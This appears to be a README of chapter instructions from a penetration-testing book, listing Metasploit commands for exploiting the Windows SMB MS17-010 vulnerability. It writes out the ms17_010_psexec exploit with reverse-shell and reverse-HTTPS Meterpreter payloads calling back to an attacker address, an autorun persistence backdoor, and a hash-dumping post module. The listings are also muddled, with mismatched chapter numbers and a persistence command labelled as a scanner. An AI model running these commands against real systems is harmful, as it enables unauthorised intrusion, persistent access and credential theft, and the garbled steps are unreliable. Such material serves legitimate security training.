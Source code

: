 # Chapter 8 Instructions

## Exploiting Windows SMB Vulnerability with MS17-010

Setup and Verification
Open the Metasploit framework:

```
msfconsole
```

### Listing 8.1 Installing the Meterpreter autorun backdoor executable

Use the auxiliary scanner for SMB MS17-010:

```
run exploit/windows/local/persistence -A -L c:\\ -X -i 30 -p 8443 -r 10.0.10.211
```

### Reestablishing Meterpreter access automatically after system reboot

```
reboot
background

msf5 auxiliary(scanner/smb/smb_ms17_010) > ifconfig
```

### Listing 7.3 Using the MS17-010 exploit module

Use the MS17-010 exploit module:

```
msf5 > use exploit/windows/smb/ms17_010_psexec
msf5 exploit(windows/smb/ms17_010_psexec) > set rhost 10.0.10.208
msf5 exploit(windows/smb/ms17_010_psexec) > set payload windows/x64/shell/reverse_tcp
msf5 exploit(windows/smb/ms17_010_psexec) > set lhost 10.0.10.160
msf5 exploit(windows/smb/ms17_010_psexec) > exploit
```

### Listing 7.4 Getting a Meterpreter shell

Utilize Meterpreter payload:

```
msf5 > use exploit/windows/smb/ms17_010_psexec
msf5 exploit(windows/smb/ms17_010_psexec) > set rhost 10.0.10.208
msf5 exploit(windows/smb/ms17_010_psexec) > set payload windows/x64/meterpreter/reverse_https
msf5 exploit(windows/smb/ms17_010_psexec) > exploit
```

### Listing 7.5 The Meterpreter help screen

Access Meterpreter shell:

```
meterpreter > help
```

### Listing 7.7 Using the smart_hashdump post module

```
meterpreter > run post/windows/gather/smart_hashdump
```
